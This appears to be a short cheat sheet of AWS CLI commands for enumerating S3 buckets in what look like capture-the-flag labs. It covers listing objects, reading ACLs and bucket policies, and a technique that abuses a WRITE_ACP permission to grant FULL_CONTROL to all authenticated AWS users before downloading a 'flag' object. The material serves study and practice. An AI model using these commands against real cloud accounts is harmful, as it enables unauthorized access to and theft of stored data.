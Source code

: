 Access key = long term creds for IAM or root account  
with access and secret key:  

### List S3 buckets.
`aws s3api list-buckets`  

### Check bucket location.  
Command: `aws s3api get-bucket-location --bucket data-extractor-repo`  

### Enumerate bucket objects  
Commands:  
`aws s3api list-objects-v2 --bucket data-extractor-repo`  
`aws s3api list-objects --bucket file-uploader-saved-files`  
`aws s3 ls s3://s3-file-load-138431686808`  

### Check object versions.
Command: `aws s3api list-object-versions --bucket data-extractor-repo`  

### Check bucket ACLs and objects ACLs.  
Commands:  
`aws s3api get-bucket-acl --bucket file-uploader-saved-files`  
`aws s3api get-object-acl --bucket file-uploader-saved-files --key flag`  
## Abuse ACL (WRITE_ACP) on object EG you can list object but not copy/download.
`aws s3api get-object-acl --bucket <bucekt-name> --key flag > objacl.json`
we see we have WRITE_ACP: `"Permission": "WRITE_ACP"`
We can add below in file (Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved):
```        
{
            "Grantee": {
                "Type": "Group",
                "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
            },
            "Permission": "FULL_CONTROL"
        }
```
And now reopload the policy:
`aws s3api put-object-acl --bucket s3-secret-771616743370 --key flag --access-control-policy file://objacl.json`  



### Download objects from the S3 bucket.
Commands:
`aws s3 cp s3://file-uploader-saved-files/flag`  

### Get bucket policy and beautify the output.
Command: `aws s3api get-bucket-policy --bucket insecurecorp-code --output text | python -m json.tool`  

### Check the public access block for a bucket.
Command: aws s3api get-public-access-block --bucket data-extractor-repo

### Check if a static website is available in the browser.  
URL: `<bucket-name>.s3-website-<region>.amazonaws.com`  
(Can also run `ls` unauthed as well as trying to upload with your own keys`

AWS CLI (https://docs.aws.amazon.com/cli/latest/reference/)
